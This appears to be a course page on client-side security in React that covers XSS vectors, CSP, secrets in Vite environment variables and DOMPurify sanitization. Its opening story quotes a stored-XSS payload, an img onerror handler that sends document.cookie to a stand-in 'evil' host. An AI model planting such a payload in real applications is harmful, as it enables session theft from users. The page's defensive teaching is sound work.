

repository: FedorArbuzov/mock-exams · page: react-intermediate/35-security-client/index.html · generator: mkdocs

# 35. Client-side security: XSS, CSP, secrets

## A story from work

A security review of the admin SPA before production: a pentester shows a PoC — a product's `description` field stores `<img src=x onerror=fetch('https://evil/?c='+document.cookie)>`. If the UI renders HTML unsanitized — XSS. Separately: a junior dev committed `VITE_STRIPE_SECRET=sk_live_...` — a secret in the client bundle forever.

React reduces some risks (JSX escapes strings), but it **doesn't cancel out** auth mistakes, XSS via `dangerouslySetInnerHTML`, token storage, or the dependency supply chain.

## What you'll learn

- XSS vectors in React admin apps
- CSP headers and what they give a SPA
- Why secrets never belong in `VITE_*`
- JWT on the client: threat model ([09-token-storage.md](09-token-storage.md))
- CSRF — when it's relevant for a SPA
- Dependency hygiene

---

## XSS in React — the threat model

| Vector | Risk |
|--------|------|
| `{userInput}` in JSX | **Low** — escaped by default |
| `dangerouslySetInnerHTML` | **High** — only sanitized HTML |
| `href={userUrl}` `javascript:` | **High** — validate the URL scheme |
| Third-party widgets | **Medium** — supply chain |
| Stored XSS via API → UI | **High** if you render HTML |

**Admin catalog:** `title`, `description` from Django — treat them as **untrusted** unless the backend sanitizes.

```tsx
// Safe — text content
<p>{product.description}</p>

// Dangerous
<div dangerouslySetInnerHTML={{ __html: product.description }} />

// If rich text is required — DOMPurify
import DOMPurify from "dompurify";
<div dangerouslySetInnerHTML={{
  __html: DOMPurify.sanitize(product.description),
}} />
```

Default policy: **plain text only** in admin tables and detail views.

---
